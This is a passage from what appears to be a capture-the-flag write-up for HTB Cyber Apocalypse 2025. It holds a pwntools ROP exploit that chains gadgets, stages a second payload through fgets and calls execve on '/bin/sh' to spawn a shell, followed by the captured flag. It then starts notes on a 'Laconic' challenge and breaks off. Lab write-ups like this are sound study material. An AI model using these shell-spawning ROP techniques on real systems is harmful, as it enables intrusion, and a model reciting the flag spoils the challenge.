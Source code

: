 ```python
rdx=0x0000000000401139
rax=0x0000000000401001
writeable=0x000000000040f000+0xa00
syscall=0x0000000000405460
main=0x00000000004013ed
stdin=0x40e020
fgets=0x0000000000401cc0
leave=0x00000000004013eb
payload=p64(rdi)+p64(writeable)+p64(rsi)+p64(0x80)+ p64(0x4051c3)+p64(0)+p64(stdin) +b"c"*0x28+p64(fgets)+p64(leave)

print(len(payload))
p.sendline(p64(writeable+8)+payload)
rop=p64(0)+p64(rdi)+p64(writeable)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(rax)+p64(0x3b)+p64(syscall)
p.sendline(b"/bin/sh\x00"+rop)

p.interactive()
```

_HTB{st4t1c_b1n4r13s_ar3_2_3z_76426d2a1fa41803b541afa9a27f9829}_

---

# Laconic

### notes :

- all the binary has is this

```nasm
mov    rdi,0x0
mov    rsi,rsp
sub    rsi,0x8
mov    rdx,0x106
syscall
ret
pop    rax
ret
```

- very weird mapping with executable being rwx xD

![vmmap](/assets/posts/htb-2025-cyberapocalypse/image.png)

### my plan :
